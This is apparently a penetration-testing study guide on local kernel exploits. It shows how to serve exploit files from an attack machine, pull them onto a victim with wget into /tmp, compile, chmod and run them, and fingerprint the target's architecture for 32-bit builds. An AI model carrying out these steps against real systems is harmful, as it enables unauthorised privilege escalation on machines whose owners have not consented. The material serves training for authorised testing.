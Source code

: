 # Working with exploits
This section is mostly about local kernel exploits, because they're annoying. Remote python exploits are usually point-and-shoot and web exploits have their own section.

## Transferring exploits
The quickest way to transfer an exploit is to create a folder for your exploits and expose it with Python's webserver:
```
python -m SimpleHTTPServer 80
```
The port defaults to 8000 but 80 and 443 are usually more accessible, and wget will use 80 by default. Make sure your port choice doesn't conflict with your shell. 

To download files to the victim machine:
```
wget http://[attack machine]:[port]/exploit.c
```
Make sure you are in a writable directory,`/tmp/` is usually reliable.

## Compiling exploits
First, the usual warning about randomly downloading exploits from the internet: watch out for backdoors. [Exploit-DB](https://www.exploit-db.com/) is reliable.

Second, always read the exploit comments carefully:

* Compiler options to use
* Architecture of the victim machine (32-bit or 64-bit)
* Steps to complete on the victim machine
* Code modifications

Third, if you get error messages during compilation or runtime, google them. Usually this is because the binary was compiled on the attack machine and there are quirks in architecture that can be solved by modifying compile options.

### Basic technique
The compile command looks like this:
```
gcc filename.c -o executablename
```
Before you can run it, you'll need to transfer it to the victim machine and give it the right permissions:
```
chmod u+x executablename
```
To run the executable:
```
./executablename
```

### Compiling 32-bit exploits on a 64-bit machine
Sometimes the victim machine will be 32-bit and can't accept a 64-bit compiled binary. To determine the architecture of your target:
```
uname -a
cat /proc/version
dpkg --print-architecture
arch
file /sbin/init
```
32-bit is usually represented by `i686` and 64-bit is usually represented by `x86_64`.

If a C compiler is missing or inaccessible on your victim machine, you can compile the exploits on your Kali machine but you need some extra libraries on Kali:
```
apt-get install gcc-multilib
apt-get install g++-multilib
```
You will also need to add the `-m32` flag to your compile command.

